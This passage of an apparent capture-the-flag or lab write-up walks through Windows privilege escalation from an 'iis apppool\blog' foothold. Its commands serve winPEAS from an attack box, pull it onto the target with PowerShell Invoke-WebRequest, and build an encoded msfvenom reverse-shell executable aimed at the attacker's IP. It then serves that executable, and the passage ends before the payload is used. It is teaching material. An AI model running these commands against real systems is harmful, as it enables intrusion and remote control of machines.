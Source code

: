Here we go again, with the good old "iis apppool\blog" user account.  
This time, to see something different, we will use a different post exploitation tool: **winPEAS**  
The tool is available in the attack box, start a http server in its folder.

```bash
root@ip-10-10-75-156:~# cd /opt/PEAS/winPEAS/winPEASbat
root@ip-10-10-75-156:/opt/PEAS/winPEAS/winPEASbat# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download it on the target machine.

```bash
c:\Windows\Temp>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/winPEAS.bat" -OutFile "c:\windows\temp\winPEAS.bat"
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/winPEAS.bat" -OutFile "c:\windows\temp\winPEAS.bat"
```

Run the script.

```bash
C:\Windows\Temp>winPEAS.bat > peas_out.txt
winPEAS.bat > peas_out.txt
```

From the partial output you notice that the **WindowsScheduler** service is running and now you know why that is interesting.

```bash
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] RUNNING PROCESSES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Something unexpected is running? Check for vulnerabilities
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#running-processes

Image Name                     PID Services
========================= ======== ============================================
...
WService.exe                  1432 WindowsScheduler
WScheduler.exe                1560 N/A
```

You can now proceed similarly to the metasploit case.  
Create a payload and start the http server.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.75.156 LPORT=3333 --encoder x86/shikata_ga_nai -f exe > Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
root@ip-10-10-75-156:~# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
